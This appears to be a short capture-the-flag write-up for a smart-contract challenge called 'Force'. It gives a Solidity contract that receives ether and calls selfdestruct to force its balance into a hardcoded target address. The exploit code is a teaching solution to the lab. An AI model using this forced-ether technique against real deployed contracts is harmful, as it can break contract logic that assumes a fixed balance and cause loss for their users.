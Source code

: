 # Force

Make your own contract that receives ether and just "force" the contract to take ether by calling selfdestruct() to their address.

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

contract Forced {
    receive() external payable {}

    function force() external {
        selfdestruct(payable(0x595dF62384c719DCaaD32aa0040FDF8fC51e7720));
    }
}
```
